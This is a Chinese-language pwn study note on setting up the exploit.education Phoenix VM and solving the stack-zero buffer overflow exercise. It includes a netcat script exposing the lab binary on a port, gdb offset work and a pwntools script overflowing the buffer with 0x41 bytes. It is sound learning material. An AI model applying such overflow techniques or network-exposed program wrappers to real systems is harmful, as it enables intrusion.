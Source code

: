 ```yaml
---
title: "[pwn笔记0]Phoenix环境搭建和stack-zero"
urlname: "[pwn笔记0]Phoenix环境搭建和stack-zero"

date: February 15, 2023 6:13 PM
tags: [pwn, stack]
---
```

找到一个学习pwn的项目[http://exploit.education](http://exploit.education/) ，决定让我临时抱佛脚学的pwn走向正轨，试试开个笔记系列（每次pwntools脚本都忘记怎么写），希望不要半路弃坑。定个小目标，至少把Phoenix系列做完吧。

## 环境配置

首先在more-downloads里下载phoenix的虚拟机系统镜像，根据你的架构选择。这就是靶机。在启动之前，我们需要安装`qemu-system-x86` （64位的也在同一个包里（archlinux））

运行`boot-balabala.sh`启动虚拟机，默认在2222端口开启ssh。用户名和密码都是user。

如果你想使用netcat来转发里面的程序，只需在启动脚本里添加另一个端口转发，这里放网络那一整行为例。

```bash
-netdev user,id=unet,hostfwd=tcp:127.0.0.1:2222-:22,hostfwd=tcp:127.0.0.1:3333-:3333
```

然后在虚拟机里执行

```bash
mkfifo io
```

并创建一个脚本文件（start.sh）

```bash
#!/bin/bash
cat io|$1 -i 2>&1|nc -l 3333 > io
```

然后你就可以通过`sh start.sh /opt/phoenix/amd64/stack-zero` 这样的方式来开netcat了，端口3333记得要和启动脚本里的匹配。

虚拟机里的gdb默认装了gef但是我不太会用，所以scp了一份peda进去。略过。

宿主机再装个非常方便的pwntools：`pip install pwntools`

## stack-zero

程序比较简单，直接用cutter了。

![深度截图_选择区域_20230215183930.png](/pics/%5Bpwn%E7%AC%94%E8%AE%B00%5DPhoenix%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA%E5%92%8Cstack-zero%20366826c7bb10483aa08121888111f984/%25E6%25B7%25B1%25E5%25BA%25A6%25E6%2588%25AA%25E5%259B%25BE_%25E9%2580%2589%25E6%258B%25A9%25E5%258C%25BA%25E5%259F%259F_20230215183930.png)

（其实exploit.education的网页上给了源码）（开头的注释甚至是个冷笑话草草草）

我们现在要让s溢出到var_10h(changeme)，内容随便。打开gdb，计算一下距离，先随便输入点什么。

![Untitled](/pics/%5Bpwn%E7%AC%94%E8%AE%B00%5DPhoenix%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA%E5%92%8Cstack-zero%20366826c7bb10483aa08121888111f984/Untitled.png)

字符串在`0x620`这里。

![Untitled](/pics/%5Bpwn%E7%AC%94%E8%AE%B00%5DPhoenix%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA%E5%92%8Cstack-zero%20366826c7bb10483aa08121888111f984/Untitled%201.png)

判断语句，changeme在`rbp-0x10` 这里也就是`0x670-0x10` 

计算`0x660-0x620=0x40`

那么我们只要输出`0x41`个a即可

为了练习使用pwntools，写个代码。

这里直接用ssh连了，nc都不需要。

```python
from pwn import *

shell = ssh("user", "localhost", password="user", port=2222)
sh = shell.run("/opt/phoenix/amd64/stack-zero")
print(sh.recvline())
sh.sendline(b"a"*0x41)
print(sh.recvline())
shell.close()
```

成功

![Untitled](/pics/%5Bpwn%E7%AC%94%E8%AE%B00%5DPhoenix%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA%E5%92%8Cstack-zero%20366826c7bb10483aa08121888111f984/Untitled%202.png)
